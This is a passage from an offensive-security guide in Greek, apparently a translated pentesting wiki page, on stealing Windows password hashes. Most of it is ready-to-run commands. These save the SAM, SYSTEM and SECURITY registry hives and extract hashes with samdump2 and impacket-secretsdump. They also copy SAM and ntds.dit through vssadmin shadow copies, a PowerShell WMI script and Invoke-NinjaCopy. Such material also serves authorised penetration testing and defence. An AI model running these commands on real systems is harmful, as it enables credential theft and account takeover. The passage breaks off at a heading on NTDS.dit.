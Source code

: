 Ο ευκολότερος τρόπος για να κλέψετε αυτά τα αρχεία είναι να πάρετε ένα αντίγραφο από το μητρώο:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Κατεβάστε** αυτά τα αρχεία στη μηχανή Kali σας και **εξαγάγετε τους κατακερματισμούς** χρησιμοποιώντας:
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
### Volume Shadow Copy

Μπορείτε να εκτελέσετε αντίγραφο προστατευμένων αρχείων χρησιμοποιώντας αυτή την υπηρεσία. Πρέπει να είστε Διαχειριστής.

#### Using vssadmin

Το δυαδικό αρχείο vssadmin είναι διαθέσιμο μόνο σε εκδόσεις Windows Server
```bash
vssadmin create shadow /for=C:
#Copy SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SAM C:\Extracted\SAM
#Copy SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM
#Copy ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

# You can also create a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
Αλλά μπορείτε να κάνετε το ίδιο από το **Powershell**. Αυτό είναι ένα παράδειγμα **του πώς να αντιγράψετε το αρχείο SAM** (ο σκληρός δίσκος που χρησιμοποιείται είναι "C:" και αποθηκεύεται στο C:\users\Public) αλλά μπορείτε να το χρησιμοποιήσετε για να αντιγράψετε οποιοδήποτε προστατευμένο αρχείο:
```bash
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
cmd /c copy "$($volume.DeviceObject)\windows\system32\config\sam" C:\Users\Public
$voume.Delete();if($notrunning -eq 1){$service.Stop()}
```
### Invoke-NinjaCopy

Τέλος, μπορείτε επίσης να χρησιμοποιήσετε το [**PS script Invoke-NinjaCopy**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) για να κάνετε ένα αντίγραφο των SAM, SYSTEM και ntds.dit.
```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"
```
## **Active Directory Credentials - NTDS.dit**
